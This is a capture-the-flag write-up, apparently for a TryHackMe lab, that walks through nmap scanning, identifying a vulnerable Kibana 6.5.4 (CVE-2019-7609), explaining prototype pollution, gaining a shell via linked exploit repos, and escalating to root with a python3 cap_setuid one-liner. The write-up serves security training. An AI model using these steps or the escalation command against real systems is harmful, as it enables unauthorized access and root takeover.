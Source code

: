
# Scanning and Enumeration

Doing an nmap scan:

```bash
nmap -p- -A -T4 10.10.127.152
```

Output:  

```bash
PORT     STATE SERVICE      VERSION

22/tcp   open  ssh          OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)

| ssh-hostkey:

|   2048 9d:f8:d1:57:13:24:81:b6:18:5d:04:8e:d2:38:4f:90 (RSA)

|   256 e1:e6:7a:a1:a1:1c:be:03:d2:4e:27:1b:0d:0a:ec:b1 (ECDSA)

|_  256 2a:ba:e5:c5:fb:51:38:17:45:e7:b1:54:ca:a1:a3:fc (ED25519)

80/tcp   open  http         Apache httpd 2.4.18 ((Ubuntu))

|_http-server-header: Apache/2.4.18 (Ubuntu)

|_http-title: Site doesnt have a title (text/html)

5044/tcp open  lxi-evntsvc?

5601/tcp open  esmagent?

| fingerprint-strings: 

|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 

|     HTTP/1.1 400 Bad Request

|   FourOhFourRequest: 

|     HTTP/1.1 404 Not Found

|     kbn-name: kibana

|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c

|     content-type: application/json; charset=utf-8

|     cache-control: no-cache

|     content-length: 60

|     connection: close

|     Date: Tue, 01 Sep 2020 18:07:18 GMT

|     {"statusCode":404,"error":"Not Found","message":"Not Found"}

|   GetRequest: 

|     HTTP/1.1 302 Found

|     location: /app/kibana

|     kbn-name: kibana

|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c

|     cache-control: no-cache

|     content-length: 0

|     connection: close

|     Date: Tue, 01 Sep 2020 18:07:15 GMT

|   HTTPOptions: 

|     HTTP/1.1 404 Not Found

|     kbn-name: kibana

|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c

|     content-type: application/json; charset=utf-8

|     cache-control: no-cache

|     content-length: 38

|     connection: close

|     Date: Tue, 01 Sep 2020 18:07:15 GMT

|_    {"statusCode":404,"error":"Not Found"}

Linux 3.10 - 3.13 (95%)
```

#### Port 80
Nothing much

#### Port 5044
Nothing much

#### Port 5601
We find **Kibana**

##### What is Kibana?

Kibana is an open source frontend application
that sits on top of the Elastic Stack,
providing search and data visualization capabilities
for data indexed in Elasticsearch

##### What is Elasticsearch?

Elasticsearch lets you store, search, and analyze with ease stuff
for your website. Maby looking for actions from a specific IP address,
analyze a spike in transaction requests and more

If we enumerate the kibana application we find in the Managment tab
that the version is:  
**6.5.4**

With a quick search and compining all the info from the previous questions
we conclude that:  
**The app is vulnerable to Prototype pollution**  
**CVE-2019-7609**  

##### What is Prototype pollution tho?

Based on this resources/presentations:  

[prototype polution in kiba](https://slides.com/securitymb/prototype-pollution-in-kibana/#/19)

[prototype pollution in general](https://www.youtube.com/watch?v=LUsiFV3dsK8)

[prototype pollution in general lecture](https://github.com/HoLyVieR/prototype-pollution-nsec18)

I understood that in js when we create an object,
there's a set of default properties that I can use,
such as *toString()*, This is called **prototype-based-inheritancs**

```javascript
let obj = {
    prop1: 123,
    prop2: 456,
}

obj.prop1 // 123
obj.toString() // f toString() {[native code]}
```

Every object in JS has a prototype (It can also be null)  
We can access it via:

```javascript
obj.__proto__
```

We can do something cool with this, called **prototype chain**

```javascript
obj2 = { prop3: 3, prop4, 4}
obj = { prop1: 1, prop2: 2, __proto__: obj2}

obj.prop1 // 1
obj.prop3 // 3
```

Basically the algorithm when trying to access obj.prop3 goes:  

1. Look if it is a property of obj
2. If's not, look if it is a property of obj2
3. It is! Process finished

Here is where **prototype pollution** comes in

```javascript
Object.prototype.pollution = 123 // 123

let obj = {} // undefined

obj.pollution // 123
```

**Prototype pollution** occurs when there is a bug in an application that
makes it possible to pollute Object.prototype with arbitary properties

An example would be:

```javascript
if (user.isAdmin) {
    // Do something important
}
```

And there's a bug in application so we can assign:  
Object.prototype.isAdmin = true  
Now everyone is admin

# Exploitation

I found a github repo that explains how to exploit this
[CVE](https://github.com/mpgn/CVE-2019-7609)  

Another way to get an easy shell is to download:
[this](https://github.com/LandGrey/CVE-2019-7609/)

Following the instruction I got a shell

```bash
kiba@ubuntu:/home/kiba$ cat user.txt
cat user.txt
THM{1s_easy_pwn3d_k1bana_w1th_rce}
```

# Post Exploitation

If we look at question 5 we can imagine that the priv-esc will
have something to do with linux capabilities

##### What are linux capabilities?

Starting with kernel 2.2, Linux divides the privileges traditionally
associated with superuser into distinct units, known as capabilities,
which can be independently enabled and disabled.  Capabilities are a
per-thread attribute

We can see some usages:
[here](http://linux-vserver.org/Capabilities_and_Flags)
and
[here](https://man7.org/linux/man-pages/man7/capabilities.7.html)

To enumerate and see what **capabilities** this user has
we can do:

```bash
getcap -r /
```

We get:

```bash
/home/kiba/.hackmeplease/python3 = cap_setuid+ep
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
```

# Privilege Escalation

cap_setuip+ep -> "allow changing of the UID"

The owner of the file is root. Meaning we, as user kibacan change our UID to
"0", whick is root.

```bash
./python3 -c ‘import os; os.setuid(0); os.system(“/bin/bash”)’
```

```json
```
